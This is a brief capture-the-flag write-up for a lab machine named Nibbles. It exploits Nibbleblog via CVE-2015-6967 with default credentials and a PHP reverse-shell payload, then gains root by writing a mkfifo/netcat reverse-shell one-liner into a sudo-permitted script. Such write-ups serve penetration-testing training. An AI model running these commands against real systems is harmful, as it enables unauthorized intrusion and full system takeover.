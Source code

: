 # Nibbles 
Nmap reports that ports 80,22 are open so we take a look at those and we see at the html source on the main page that there is a path /nibbleblog/ we will deep dive on it


## [CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967)

As we search on google we find this vulnerabilitie so we proceed with the exploit.

[shell.php](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

```bash

#Usage example

nc -lvp 4444

# Make sure to edit the shell.php before running it
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php

```

## Privilage Escalation

We run `sudo -l` and surprise the user can run a file called `monitor.sh` as root we just edit this file make 

```bash
nc -lvp <port>

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <ip> <port> >/tmp/f
```

We get the machine access and wallah! [PWNED]